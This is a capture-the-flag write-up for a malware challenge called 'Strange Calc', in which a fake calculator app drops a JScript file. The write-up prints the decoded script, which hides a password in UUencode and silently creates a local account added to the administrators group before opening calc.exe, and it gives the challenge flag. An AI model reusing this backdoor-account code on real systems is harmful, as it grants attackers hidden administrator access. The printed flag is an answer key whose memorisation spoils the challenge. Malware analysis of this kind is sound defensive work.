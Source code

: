## Name: Strange Calc
#### Author: @JohnHammond
#### Category: Malware
#### Difficulty: N/D
#### Description: I got this new calculator app from my friend! But it's really weird, for some reason it needs admin permissions to run??

NOTE: Archive password is strange_calc

## Procedure
I did a dynamic analysis for this chall using [AnyRun](https://app.any.run), here we can see the file ```5t0vNHm1fe.jse``` created after run the ```.exe```.

<img width="1386" alt="Screenshot 2025-02-11 at 7 11 10 PM" src="https://github.com/user-attachments/assets/f28f8bf2-2c4d-4d01-bd33-c6160462033d" />

This create a local user and then add the new user into localgroup ```administrators```, I have recovered the ```5t0vNHm1fe.jse``` file, we can recover the original text with Cyberchef using ```Microsoft Script Decoder``` module

```
function a(b){var c="",d=b.split("\n");for(var e=0;e<d.length;e++){var f=d[e].replace(/^\s+|\s+$/g,'');if(f.indexOf("begin")===0||f.indexOf("end")===0||f==="")continue;var g=(f.charCodeAt(0)-32)&63;for(var h=1;h<f.length;h+=4){if(h+3>=f.length)break;var i=(f.charCodeAt(h)-32)&63,j=(f.charCodeAt(h+1)-32)&63,k=(f.charCodeAt(h+2)-32)&63,l=(f.charCodeAt(h+3)-32)&63;c+=String.fromCharCode((i<<2)|(j>>4));if(h+2<f.length-1)c+=String.fromCharCode(((j&15)<<4)|(k>>2));if(h+3<f.length-1)c+=String.fromCharCode(((k&3)<<6)|l)}}return c.substring(0,g)}var m="begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend";var n=a(m);var o=["net user LocalAdministrator "+n+" /add","net localgroup administrators LocalAdministrator /add","calc.exe"];var p=new ActiveXObject('WScript.Shell');for(var q=0;q<o.length-1;q++){p.Run(o[q],0,false)}p.Run(o[2],1,false);
```

Here we can see an interesting encoded text ```begin 644 -\nG9FQA9WLY.3(R9F(R,6%A9C$W-3=E,V9D8C(X9#<X.3!A-60Y,WT*\n`\nend```, reading about it and using [dcode.fr](https://www.dcode.fr/cipher-identifier) we have identified the encoded text as ```UUencode```.

<img width="1103" alt="Screenshot 2025-02-11 at 7 18 19 PM" src="https://github.com/user-attachments/assets/6b66895c-fe38-44cd-a9f4-a2150e05756b" />

flag ```flag{9922fb21aaf1757e3fdb28d7890a5d93}```
